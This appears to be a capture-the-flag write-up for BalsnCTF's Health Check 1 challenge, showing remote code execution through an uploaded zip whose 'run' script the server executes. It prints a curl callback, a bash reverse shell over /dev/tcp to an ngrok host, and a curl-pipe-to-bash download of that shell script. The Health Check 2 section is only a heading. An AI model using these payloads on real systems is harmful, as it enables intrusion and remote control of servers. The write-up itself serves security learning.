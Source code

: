 ```yaml
---
layout: single
title: Health Check 1 & 2 - BalsnCTF
excerpt: Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our "fastest" Health Check API in the world!
date: 2022-9-05
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: #
categories:
  - ctf
  - web
tags:  
  - BalsnCTF
  - remote command execution
  - race condition
---
```



## Challenge Description
"Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our "fastest" Health Check API in the world!"


## Information
Some information about healthcheck1 and healthcheck2, these are 2 seperate challenges where you have to gain access with RCE for healthcheck 1 enumerate the file system and grab the flag. After that healthcheck 2 comes to the surface, so we got a shell and with that into web application 


## Health Check 1
![index](https://user-images.githubusercontent.com/45040001/188512190-3470dbe0-f726-4f73-92a1-11b802ffe06f.png)

![docs_dir](https://user-images.githubusercontent.com/45040001/188512230-691bfdc5-8811-4e0b-a180-b15a56e97f28.png)

![docs](https://user-images.githubusercontent.com/45040001/188512252-23eea18f-11a7-4008-b7b0-b85ed03742c8.png)
<br>
"<b>This endpoint is only for admin. do NOT share this link with players</b>!

Upload the health check script to create a new problem. The uploaded file should be a zip file. The zip file should NOT have a top-level folder, you must place an executable (or a script) named run. You may put other fiels as you want. Below is an example output of zipinfo myzip.zip of a valid myzip.zip"
<br>
![admin_only](https://user-images.githubusercontent.com/45040001/188512336-edf35a77-5b7d-4bc4-bdd8-956d5aa938f3.png)

![upload exploit](https://user-images.githubusercontent.com/45040001/188512694-815aa9fe-edc5-4eb4-a3d1-fd1103a1ef8a.png)


```bash
#!/bin/bash

curl http://burpcollaborator.net/
```

![curl](https://user-images.githubusercontent.com/45040001/188512936-18f8d21c-d5a4-4cdd-87f0-6dcdd562b042.png)


![cors](https://user-images.githubusercontent.com/45040001/188512958-8afb1bfb-cba4-43b7-ba6a-3535130004f2.png)

```bash
#!/bin/bash
# shell.sh

bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12771 0>&1
```


```bash
#!/bin/bash
# run executable

curl http://server-to-shell.com/shell.sh|bash
```

![rev_shell](https://user-images.githubusercontent.com/45040001/188512834-833e9ba4-3db1-43de-8a8f-dc7e1ae3cd84.png)
![flag](https://user-images.githubusercontent.com/45040001/188512842-48603fcf-de87-439a-8168-dc3fcd5be75e.png)


## Health Check 2
